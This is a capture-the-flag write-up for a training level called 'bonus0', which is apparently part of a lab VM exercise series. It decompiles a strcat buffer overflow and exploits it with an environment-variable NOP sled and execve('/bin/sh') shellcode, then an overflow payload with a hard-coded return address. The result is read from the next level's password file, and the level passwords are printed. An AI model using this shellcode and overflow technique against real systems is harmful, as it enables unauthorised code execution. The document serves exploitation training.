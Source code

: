 # Bonus 0
*password : f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728*

## Analyze
```
$ scp -P 4242 bonus0@192.168.56.108:bonus0 binary/
```
*~uVar2 => inverse each bit*
```
    *(undefined2 *)(str + (~uVar2 - 1)) = 32;
```
32 = `space`\
put a space at the end of input1\
ex: if no overflow output = "input1`space`input2"

## Buffer overflow : strcat exploit
objective : execute `bin/sh`
- "reduce" shellcode because buffer size too short:
```
$ scp -P 4242 bonus0/Ressources/getenv.c bonus0@192.168.56.108:/tmp/
```
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
$ cd /tmp
$ gcc getenv.c
$ ./a.out
0xbffff83f
```
- overflow on the input 2
- compute offset : 9

```
$ python -c 'print "\x90" * 4095 + "\n" + "\x90" * 9 + "\x3f\xf8\xff\xbf" + "\x42" * 8' > /tmp/bonus0
$ cat /tmp/bonus0 - | ./bonus0 
...
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

